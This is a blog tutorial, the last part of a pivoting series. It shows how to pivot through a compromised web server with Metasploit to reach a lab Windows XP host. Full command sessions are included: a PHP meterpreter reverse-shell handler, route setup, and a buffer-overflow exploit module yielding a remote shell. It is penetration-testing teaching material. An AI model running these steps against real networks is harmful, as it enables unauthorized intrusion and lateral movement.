 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 4: Metasploit"
date: 2012-10-22 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-4.html
---
```


In this article, we'll look at pivoting using [Metasploit](http://www.metasploit.com/). If you have the option to use Metasploit, you'll find that it makes pivoting much easier. Metasploit can be installed on Linux, Windows, and Mac OS X, which makes it a pretty versatile tool. The number of modules included in the framework grows continuously, and its low learning curve makes it popular among hackers. 

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-22/01.jpg)

We've already compromised the web server and obtained some form of shell access to it, such as a reverse shell for instance. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I ported the python exploit we used in the previous articles into a Metasploit module which can be downloaded [here](https://gist.github.com/superkojiman/df9df065e2bbbef365aa5e2214e7f934). It should be saved in ~/.msf4/modules/exploits/windows/misc/. 

### The attack

We begin by gaining access to the web server with Metasploit. We've created a PHP reverse meterpreter shell payload using php/meterpreter_reverse_tcp. This was copied to the web server and will connect back to our machine and give us a meterpreter shell when we load it. Let's start up our handler and gain our meterpreter shell: 

```
# msfcli exploit/multi/handler PAYLOAD=php/meterpreter_reverse_tcp LHOST=192.168.81.125 LPORT=9999 E
[*] Please wait while we load the module tree...
 
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
 
     Trace program: running
 
           wake up, Neo...
        the matrix has you
      follow the white rabbit.
 
          knock, knock, Neo.
 
                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`
 
 
       =[ metasploit v4.5.0-dev [core:4.5 api:1.0]
+ -- --=[ 961 exploits - 508 auxiliary - 153 post
+ -- --=[ 257 payloads - 28 encoders - 8 nops
 
PAYLOAD => php/meterpreter_reverse_tcp
LHOST => 192.168.81.125
LPORT => 9999
[*] Started reverse handler on 192.168.81.125:9999 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (192.168.81.125:9999 -> 192.168.81.181:64796) at 2012-10-05 16:26:12 -0400
 
meterpreter >
```

We've obtained a meterpreter shell on the web server. We'll need to background meterpreter so we can setup our pivot. To do this, we can use Metasploit's route command to associate the new route to our meterpreter session: 

```
meterpreter > background
[*] Backgrounding session 1...
msf  exploit(handler) > route add 192.168.63.0 255.255.255.0 1
[*] Route added
msf  exploit(handler) > route print
 
Active Routing Table
====================
 
   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.63.0       255.255.255.0      Session 1
 
msf  exploit(handler) >
```

Our pivot setup is now complete. Let's test it by exploiting Server-Strcpy using the serverstrcpy exploit module. The target port is already set to port 1000 by default, so all we have to do is specify the target IP address and the payload. For this example, we'll use the windows/shell_bind_tcp payload: 

```
msf  exploit(handler) > use exploit/windows/misc/serverstrcpy 
msf  exploit(serverstrcpy) > set RHOST 192.168.63.142
RHOST => 192.168.63.142
msf  exploit(serverstrcpy) > set PAYLOAD windows/shell_bind_tcp 
PAYLOAD => windows/shell_bind_tcp
msf  exploit(serverstrcpy) > exploit 
 
[*] Started bind handler
[*] Trying target Windows XP Pro SP2 English...
 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>        
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the target. This was an extremely easy setup, basically just using the route command within Metasploit to setup the pivot. 

This article concludes the series on introduction to pivoting. I started this series as a way to showcase different pivoting techniques that I hoped would be helpful to beginners. If the rules of engagement allow it, pivoting will allow you to show your clients just how serious a security breach can become if an attacker can tunnel deep into the network. 

